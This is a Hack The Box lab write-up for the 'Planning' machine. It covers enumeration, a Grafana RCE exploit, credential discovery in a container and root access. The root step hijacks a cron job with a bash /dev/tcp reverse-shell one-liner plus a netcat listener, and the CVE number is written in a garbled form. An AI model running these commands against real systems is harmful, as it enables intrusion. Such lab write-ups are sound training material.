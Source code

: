 ```yaml
---
title: HTB Lab Writeup - "Planning"
description: A writeup concerning the Hack The Box lab "Planning" 
date: '2025-06-10'
categories:
    - HTB
    - Cron-Job-Abuse
    - OSINT
    - Subdomain brute forcing
    - Local services
published: False
---
```



## Table of Contents


## Initial Enumeration

I began by running an `nmap` scan of the target machine:

```bash
sudo nmap 10.10.11.68 -sC -sV
```


![Screenshot 2025-06-09 234205.png](/Screenshot%202025-06-09%20234205.png)
This revealed two open ports:

- **Port 22 (SSH)**
- **Port 80 (HTTP)**

I mapped `planning.htb` to the target IP via `/etc/hosts` to browse the site properly.

---

## Web Application Analysis

&nbsp;

![Screenshot 2025-06-09 234443.png](/Screenshot%202025-06-09%20234443.png)


---
The landing page at `http://planning.htb` had multiple subpages. I inspected user registration and forms manually and with **ZAP** to identify potential vulnerabilities. Notably, I found:

- A bug in the phone number input field: overly long input caused a **500 Internal Server Error**.
- Misconfigured HTTP verbs: GET requests were accepted on POST-defined endpoints, but they were not exploitable.

After exhausting client-side attacks, I pivoted back to **directory and subdomain enumeration**.

---

## Subdomain Discovery – Grafana

During enumeration, I identified a subdomain: `grafana.planning.htb`. After updating `/etc/hosts`, I accessed a **Grafana login portal**.
Using the initial credentials provided in the lab instructions, I successfully logged in.

![SubdomainTestshtb.png](/SubdomainTestshtb.png)
![grafana.htb.png](/grafana.htb.png)


---

## Grafana 11.0.0 RCE Exploit

The Grafana instance was running **version 11.0.0**, which has a known **Remote Code Execution** vulnerability. Using the exploit (CVE-2024-2024–9264), I achieved **RCE** and obtained a reverse shell by base64 encoding a payload and ended up inside a **Docker container**.

![Screenshot 2025-06-10 190036.png](/Screenshot%202025-06-10%20190036.png)
![Screenshot 2025-06-10 190153.png](/Screenshot%202025-06-10%20190153.png)


---

## Docker Container Enumeration

Within the container, I attempted several Docker escape techniques (e.g., mounting the host file system or abusing Docker capabilities), but none succeeded.
Running `linpeas.sh`, I found **environment variables** containing another set of credentials.
![Screenshot 2025-06-10 201110.png](/Screenshot%202025-06-10%20201110.png)


---

## SSH Access to Host Machine

The credentials worked on the host system, granting access via SSH as the user **enzo**.

```bash
ssh enzo@10.10.11.68
```
![Got into the actual box.png](/Got%20into%20the%20actual%20box.png)
With user-level access, I ran `linpeas` again to analyze privilege escalation vectors.

---

## Deeper Privilege Escalation Recon

Initial attempts included:

- Trying to exploit **Polkit (PwnKit)** — ruled out due to missing `pkexec`.
- Checking for writable services, binaries, and SUID bits — no success.
- Observing several localhost-bound services with `linpeas`, including:

```bash
127.0.0.1:8000
127.0.0.1:3000
```
![openports.png](/openports.png)
This prompted **local port forwarding** to inspect those services.

---

## Local Web Service on Port 8000 – Cron UI

Using `ssh -L`, I forwarded port 8000:

```bash
ssh -L 8000:127.0.0.1:8000 enzo@10.10.11.68
```

This revealed a **Cron Job Management Web Interface**. Previously, I had found login credentials stored in a `cron.db` file. These credentials allowed me to log into the UI.

---
![Screenshot 2025-06-10 221754.png](/Screenshot%202025-06-10%20221754.png)
## Cron Job Exploitation for Root Access

Inside the UI, a cron job named **Grafana backup** was configured to run daily as root. I edited this job to:

```bash
bash -c "bash -i >& /dev/tcp/<My-IP>/4444 0>&1"
```
![CronJobManip.png](/CronJobManip.png)
After setting up a listener:

```bash
nc -lvnp 4444
```

I received a **root reverse shell** once the cron job executed.

---

## Final Step – Root Flag

With root access, I read the final flag:
![rooting.png](/rooting.png)

---

## Lessons Learned

- **Overlooked vectors** like internal-only services (`127.0.0.1`) can contain crucial components (cron UI).
- **Privilege escalation via cron** remains a reliable vector when cron UIs or scripts are writable or misconfigured.
- **Staying organized** and revisiting old findings (like credentials or hidden services) is crucial when paths feel exhausted.



